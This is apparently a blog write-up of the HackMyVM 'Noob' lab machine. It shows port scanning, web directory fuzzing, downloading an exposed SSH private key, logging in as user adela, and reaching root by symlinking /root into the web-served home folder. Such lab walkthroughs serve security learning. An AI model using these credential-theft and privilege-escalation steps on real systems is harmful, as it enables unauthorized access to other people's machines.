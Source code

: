 # **Noob :: HackMyVM**

***
![image](https://github.com/user-attachments/assets/38cc8183-6833-4df3-95e0-e692a058620c)


## **Difficulty :: Easy**

***

Running our nmap scan we have 2 open ports

```bash
# Nmap 7.94SVN scan initiated Thu Oct 17 22:07:24 2024 as: /usr/lib/nmap/nmap --privileged -p- -T4 -v -sCV -oN nmap.txt 192.168.0.200
Nmap scan report for noob (192.168.0.200)
Host is up (0.00022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:6a:8e:22:cd:dd:75:52:a6:0a:46:06:bc:df:53:0f (RSA)
|   256 c2:48:46:33:d4:fa:c0:e7:df:de:54:71:58:89:36:e8 (ECDSA)
|_  256 5e:50:90:71:08:5a:88:62:7e:81:07:c3:9a:c1:c1:c6 (ED25519)
65530/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
MAC Address: 08:00:27:44:46:EE (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 17 22:07:37 2024 -- 1 IP address (1 host up) scanned in 13.98 seconds
```



As shown above in our nmap scan it looks like the website on port 65530/HTTP is hosting a web server and is probably serving files, Making a `curl`


```bash
❯ curl http://192.168.0.200:65530
404 page not found
```

Performing directory fuzzing i found two web directories


```bash
❯ ffuf -ic -u "http://192.168.0.200:65530/FUZZ" -w /usr/share/wordlists/seclist/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404,403,401 -e .log,.txt,.zip,.php,.bak,.sql,.pdf,.png
,.jpg,.jpeg,.html,.conf,..git

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.0.200:65530/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclist/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .log .txt .zip .php .bak .sql .pdf .png .jpg .jpeg .html .conf ..git 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500          
 :: Filter           : Response status: 404,403,401
________________________________________________ 


index                   [Status: 200, Size: 19, Words: 4, Lines: 2, Duration: 6ms]   
nt4share                [Status: 301, Size: 45, Words: 3, Lines: 3, Duration: 0ms]
```


Checking the `nt4share` web directory we have few files that are meant to be on a linux home directory


![](https://i.imgur.com/4L6nRTK.png)

We can go ahead and download the `id_rsa` file in the `.ssh` directory 


```bash
❯ wget http://192.168.0.200:65530/nt4share/.ssh/id_rsa
```



Then grant the file `rw` permissions and login as user `adela` as discovered in the `id_rsa.pub` file in the `.ssh` directory


```bash
❯ chmod 600 id_rsa

❯ ssh adela@192.168.0.200 -i id_rsa
The authenticity of host '192.168.0.200 (192.168.0.200)' can't be established.
ED25519 key fingerprint is SHA256:0ug88klEB+Auk3kP/jhWOHJJZmKXY2RjjR4GnhZdYuQ.
--SNIP--
adela@noob:~$ 
```

Checking our current user home folder we don't have anything interesting

```bash
adela@noob:~$ ls -la
total 32
drwxr-xr-x 4 adela adela 4096 Oct 18 02:48 .
drwxr-xr-x 3 root  root  4096 Jul 11  2021 ..
-rw-r--r-- 1 adela adela  220 Jul 11  2021 .bash_logout
-rw-r--r-- 1 adela adela 3526 Jul 11  2021 .bashrc
drwxr-xr-x 3 adela adela 4096 Oct 18 02:28 .local
-rw-r--r-- 1 adela adela  807 Jul 11  2021 .profile
drwx------ 2 adela adela 4096 Oct 18 02:27 .ssh
-rw------- 1 adela adela   50 Jul 14  2021 .Xauthority
adela@noob:~$
```


Tried searching for the `nt4share` directory if it is been hosted locally but to my surprise, It is not 😢


```bash
adela@noob:~$ find / -name "*nt4share*" 2>/dev/null
```


Well since files are currently been hosted from our current user home folder we can go ahead and create a symbolic link to the  `/root` directory as shown below


```bash
adela@noob:~$ ln -s /root root
adela@noob:~$ ls -l
total 0
lrwxrwxrwx 1 adela adela 5 Oct 18 02:49 root -> /root
adela@noob:~$ 
```



Then access it from the web endpoint, we can also go ahead and grab the `root` user `id_rsa` file and login or just submit flags


![](https://i.imgur.com/hVSYG16.png)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
